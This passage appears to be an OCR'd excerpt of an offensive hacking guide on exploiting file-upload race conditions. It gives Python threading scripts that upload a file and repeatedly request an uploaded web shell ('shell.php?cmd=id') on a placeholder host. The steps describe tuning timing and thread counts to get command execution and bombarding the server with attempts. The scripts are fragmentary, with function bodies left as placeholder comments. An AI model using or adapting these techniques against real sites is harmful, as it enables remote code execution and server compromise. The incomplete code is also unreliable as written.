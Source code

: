        def upload_file():
           # Same as above upload code
           
       def access_file():
           time.sleep(0.1)  # Small delay to ensure upload starts
           r = requests.get("https://vulnerable-site.com/uploads/shell.php?cmd=id")
           print(r.text)
           
       t1 = threading.Thread(target=upload_file)
       t2 = threading.Thread(target=access_file)
       
       t1.start()
       t2.start()
       ```
       - Step 4: Run the script multiple times to exploit the race condition
       - Step 5: Adjust timing parameters for successful exploitation
       - Example: If file is checked after upload, access it in the milliseconds between upload and validation

    2. **Multi-threaded race condition attacks**:
       - Step 1: Create a more sophisticated script with multiple threads:
       ```python
       import requests
       import threading
       import time
       
       def upload_file():
           # Upload code here
           
       def access_file():
           # Access code here
           
       threads = []
       # Create 5 upload threads
       for i in range(5):
           t = threading.Thread(target=upload_file)
           threads.append(t)
           
       # Create 20 access threads with different timing
       for i in range(20):
           t = threading.Thread(target=access_file)
           t.daemon = True
           threads.append(t)
           
       # Start all threads
       for t in threads:
           t.start()
           time.sleep(0.05)  # Small delay between thread starts
       ```
       - Step 3: Run the script to exploit race condition through multiple simultaneous attempts
       - Step 4: Check for successful command execution responses
       - Step 5: Fine-tune the timing and thread count based on results
       - Example: Bombard server with multiple upload/access attempts to increase race condition success
